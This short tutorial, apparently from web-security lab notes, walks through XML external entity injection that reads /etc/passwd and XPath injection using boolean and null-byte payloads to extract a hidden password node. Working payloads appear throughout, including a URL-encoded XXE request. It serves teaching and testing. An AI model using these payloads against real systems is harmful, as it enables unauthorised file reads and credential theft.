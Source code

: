# XML Attacks

Some XML parsers will resolve external entities, and will allow a user controlling the XML message to access resources; for example to read a file on the system. The following entity can be declared, for  example:

```
<!ENTITY x SYSTEM "file:///etc/passwd">
```

You will need to envelope this properly, in order to get it to work correctly:

```
<!DOCTYPE test [
    <!ENTITY x SYSTEM "file:///etc/passwd">]>
```

You can then simply use the reference to `x`: `&x;` (don't forget to encode `&`) to get the corresponding result inserted in the XML document during its parsing (server side).

```http://example.com/?xml=%3C!DOCTYPE%20test%20[%3C!ENTITY%20x%20SYSTEM%20%22file%3a%2f%2f%2fetc%2fpasswd%22%3E]%3E%3Ctest%3E%26x;%3C/test%3E```

-------------

In this example, the code uses the user's input, inside an XPath  expression. XPath is a query language, which selects nodes from an XML  document. Imagine the XML document as a database, and XPath as an SQL  query. If you can manipulate the query, you will be able to retrieve  elements to which you normally should not have access.

If we inject a single quote, we can see the following error:

```
Warning: SimpleXMLElement::xpath(): Invalid predicate in /var/www/index.php on line 22
Warning: SimpleXMLElement::xpath(): xmlXPathEval: evaluation failed in /var/www/index.php on line 22
Warning: Variable passed to each() is not an array or object in /var/www/index.php on line 23
```

Just like SQL injection, XPath allows you to do boolean logic, and you can try:

- `' and '1'='1` and you should get the same result.
- `' or '1'='0` and you should get the same result.
- `' and '1'='0` and you should not get any result.
- `' or '1'='1` and you should get all results.

Based on these tests and previous knowledge of XPath, it's possible to get an idea of what the XPath expression looks like:

```
[PARENT NODES]/name[.='[INPUT]']/[CHILD NODES]
```

To comment out the rest of the XPath expression, you can use a NULL  BYTE (which you will need to encode as %00). As we can see in the XPath  expression above, we also need to add a `]` to properly complete the syntax. Our payload now looks like `hacker']%00` (or `hacker' or 1=1]%00` if we want all results).

If we try to find the child of the current node, using the payload `'%20or%201=1]/child::node()%00`, we don't get much information.

Here, the problem is that we need to get back up in the node  hierarchy, to get more information. In XPath, this can be done using `parent::*` as part of the payload. We can now select the parent of the current node, and display all the child node using `hacker'%20or%201=1]/parent::*/child::node()%00`.

One of the node's value looks like a password. We can confirm this, by checking if the node's name is `password` using the payload `hacker']/parent::*/password%00`.